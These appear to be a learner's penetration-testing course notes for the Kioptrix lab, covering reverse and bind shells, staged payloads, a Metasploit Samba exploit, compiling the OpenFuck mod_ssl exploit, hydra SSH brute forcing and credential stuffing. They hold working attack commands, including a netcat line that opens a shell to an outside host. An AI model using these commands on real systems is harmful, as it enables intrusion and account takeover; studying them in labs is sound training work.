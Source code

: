 ## Reverse Shell
reverse shell = a victim connects to us (95% of shells will be reverse)  
- `nc -nvlp 4444` *attacker listening*
- `nc 1.1.1.1 4444 -e /bin/sh` *target connecting*  
bind shell = we connect to target  
- scenario, we are doing external pen test, behind nat.. reverse shell would require port forwarding on firewall.. thus we use bind shell here  
- `nc -nvlp 4444 - /bin/sh` *target listening*
- `nc 1.1.1.1 4444` *attacker connecting*  

## Staged vs Non-staged Payloads  
#### Non-staged  
sends exploit shellcode all at once, larger in size and won't always work  
windows/meterpreter_reverse_tcp   *notice how meterpreter _ + payload are together*  
#### Staged  
sends payload in stages, can be less stable  
windows/meterpreter/reverse_tcp   *notice how meterpreter is separated from payload with*  
***
## Metasploit
searchsploit samba 2.2  
msfconsole  
search trans2open  
use exploit/linux/samba/trans2open   
options  
set RHOST 192.168.57.134  
options  
show targets  
run */exploit will also work*   
here, this exploit was *dieing/crashing*, so we need to use a different payload  
set payload linux/x86/shell_reverse_tcp  
Use tab-complete to make this easier  
run  
**Congratulations** you are now root!  

## Manual Exploitation  
In our Kioptrix enumeration, we found ModSSL being a vulnerability  
ExploitDB and google search, showed a exploit, OpenFuck..  
https://github.com/heltonWernik/OpenLuck  
git clone https://github.com/heltonWernik/OpenFuck.git  |  clone repo  
apt-get install libssl-dev  
gcc -o OpenFuck OpenFuck.c -lcrypto  | **COMPILE!**  
./OpenFuck  - *EXPLOIT*  
*check out the README.md for usages*  
https://kongwenbin.wordpress.com/tag/openfuck/  
https://medium.com/@javarmutt/how-to-compile-openfuckv2-c-69e457b4a1d1  
Usage: ./OpenFuck target box [port] [-c N]  
0x6b - RedHat Linux 7.2 (apache-1.3.20-16)  
./OpenFuck -0x6b 192.168.176.130 -c 40
                                                                       
## Brute Force Attacks  
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt  ssh://192.168.176.130:22 -t 4 -V
[[HYDRA]]
### same thing with MSFCONSOLE
search ssh   
use  auxiliary/scanner/ssh/ssh_login  
options  
set RHOSTS 192.168.176.130  
set USERNAME root  
set PASS_FILE  /usr/share/wordlists/metasploit/unix_passwords.txt  
set VERBOSE true  

## Credential Stuffing  & Password Spraying
**#1 Heath gets in during assessment**  
Injecting breached account credentials in hopes of account takeover  
get leaked credentials from breaches  
Real life example : tesla breach parse  
Burpsuite *Pitchfork* for credential stuffing, *Sniper* for password spraying  
 